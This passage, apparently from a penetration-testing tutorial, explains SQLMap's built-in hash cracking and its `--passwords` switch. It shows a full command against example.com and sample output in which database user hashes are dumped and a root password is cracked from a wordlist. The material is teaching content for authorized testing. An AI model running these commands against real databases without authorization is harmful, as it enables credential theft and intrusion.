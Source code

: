 We can see in the previous example that SQLMap has automatic password hashes cracking capabilities. Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.

Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented support for cracking 31 different types of hash algorithms, with an included dictionary containing 1.4 million entries (compiled over the years with most common entries appearing in publicly available password leaks). Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.

### DB Users Password Enumeration and Cracking

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task:

`sqlmap -u "http://www.example.com/?id=1" --passwords --batch`

    ...SNIP...
    [14:25:20] [INFO] fetching database users password hashes
    [14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries).    Falling back to partial UNION technique
    [14:25:20] [INFO] retrieved: 'root'
    [14:25:20] [INFO] retrieved: 'root'
    [14:25:20] [INFO] retrieved: 'root'
    [14:25:20] [INFO] retrieved: 'debian-sys-maint'
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

    do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

    [14:25:20] [INFO] using hash method 'mysql_passwd'
    what dictionary do you want to use?
    [1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
    [2] custom dictionary file
    [3] file with list of dictionary files
    > 1
    [14:25:20] [INFO] using default dictionary
    do you want to use common password suffixes? (slow!) [y/N] N

    [14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
    [14:25:20] [INFO] starting 8 processes 
    [14:25:26] [INFO] cracked password 'testpass' for user 'root'
    database management system users password hashes:

    [*] debian-sys-maint [1]:
        password hash: *6B2C58EABD91C1776DA223B088B601604F898847
    [*] root [1]:
        password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
        clear-text password: testpass

    [14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

    [*] ending @ 14:25:28 /2020-09-18/
